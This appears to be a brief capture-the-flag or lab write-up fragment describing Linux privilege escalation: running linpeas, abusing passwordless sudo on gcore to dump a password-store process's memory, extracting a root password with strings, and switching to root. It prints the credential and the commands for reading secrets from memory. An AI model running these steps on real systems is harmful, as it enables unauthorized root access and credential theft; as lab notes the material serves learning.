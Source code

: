\./linpeas\.sh

-  gcore \(nopass SUDO\)
-  ps aux \-\> to examine any interesting processes \-\> /usr/bin/password\-store \(PID 484\)
-  sudo /usr/bin/gcore 484
-  strings core\.484
-  root:ClogKingpinInning731
-  su root
# root
